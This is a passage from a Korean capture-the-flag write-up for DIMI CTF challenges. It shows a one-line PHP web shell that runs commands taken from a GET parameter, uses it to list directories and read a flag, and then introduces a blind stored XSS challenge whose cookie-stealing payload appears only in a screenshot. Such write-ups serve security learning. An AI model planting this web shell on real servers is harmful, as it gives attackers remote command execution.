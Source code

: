 ```php
echo shell_exec($_GET[1]);
```

그리고 GET 파라미터에 `ls ../../`를 넣은 결과는 다음과 같다.

![현재 디렉토리의 파일 리스트](5shared_1.png)

그러면 플래그의 파일 이름도 알겠으니 `cat`으로 내용을 읽어보자.

![플래그 파일의 내용](5shared_2.png)

```text
FLAG: DIMI{expl0d3_pht_g3t_sh3lL_:p}
```

## simple xss (15 solvers, 107pt)

```text
simple xss
http://ctf.dimigo.hs.kr:3317/
```

밑에서 볼 수 있듯이 간단한 Blind Stored XSS이다. 쿠키 탈취를 하는 공격 코드를 짜봤다.

![XSS 공격 코드를 넣은 페이지](simple_xss_1.png)

